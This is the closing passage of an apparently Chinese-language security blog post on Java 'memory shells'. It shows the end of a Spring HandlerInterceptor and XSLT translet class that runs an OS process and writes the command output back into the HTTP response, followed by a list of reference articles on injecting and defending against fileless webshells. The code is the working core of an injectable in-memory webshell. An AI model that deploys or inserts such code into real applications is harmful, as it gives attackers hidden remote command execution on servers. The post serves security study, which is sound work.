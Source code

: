 ```java
                Process process = p.start();
                Scanner s = new Scanner(process.getInputStream());
                String result = s.useDelimiter("\\A").hasNext() ? s.next() : "";
                writer.println(result);
                writer.flush();
                writer.close();
            } catch (Exception e) {
            }
        }
        return true;
    }
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, @Nullable ModelAndView modelAndView) throws Exception {
        HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);
    }

    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, @Nullable Exception ex) throws Exception {
        HandlerInterceptor.super.afterCompletion(request, response, handler, ex);
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

}
```
![](https://img-blog.csdnimg.cn/12de828939d54a929bdeda8d49ffdbbc.png)

参考：
[Spring 内存马实现](https://myzxcg.com/2021/11/Spring-%E5%86%85%E5%AD%98%E9%A9%AC%E5%AE%9E%E7%8E%B0/)
[Java内存马-SpringMVC篇](https://blog.csdn.net/mole_exp/article/details/123992395)
[针对spring mvc的controller内存马-学习和实验(注入菜刀和冰蝎可用的马)](https://www.cnblogs.com/bitterz/p/14820898.html)
[深入浅出内存马(二) 之SpringBoot内存马（文末视频教学）](https://jishuin.proginn.com/p/763bfbd642b7)
[SpringMVC配合Fastjson的内存马利用与分析](https://www.anquanke.com/post/id/248155)
[ 利用 intercetor 注入 spring 内存 webshell ](https://landgrey.me/blog/19/)


**内存马可参考文章：**
[JavaWeb 内存马一周目通关攻略 ](https://su18.org/post/memory-shell/)
[Java内存马攻防实战--攻击基础篇](https://mp.weixin.qq.com/s/HODFJF3NJmsDW2Lcd-ebIg)
[基于内存 Webshell 的无文件攻击技术研究 ](https://www.anquanke.com/post/id/198886)
[Java 内存攻击技术漫谈](https://paper.seebug.org/1678/)
[内存马的攻防博弈之旅](http://blog.nsfocus.net/webshell-interceptor/)
[杂谈Java内存Webshell的攻与防](https://zhuanlan.zhihu.com/p/227862004)
